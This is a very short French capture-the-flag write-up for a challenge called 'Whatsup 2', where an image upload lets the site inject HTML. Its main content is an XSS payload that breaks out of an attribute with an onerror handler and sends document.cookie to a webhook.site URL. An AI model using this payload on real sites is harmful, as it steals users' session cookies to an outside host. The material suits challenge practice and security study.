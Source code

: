 
# Whatsup 2

Ici c'est le même principe qu'avant avec encore moins de travail !

Le site va injecter du code html pour nous grâce à l'envoi d'image 

du coup mon payloads :

```JS
" onerror="document.location='https://webhook.site/14aa109b-daa5-4d81-95f1-54fcccd908a3?c='+document.cookie
```
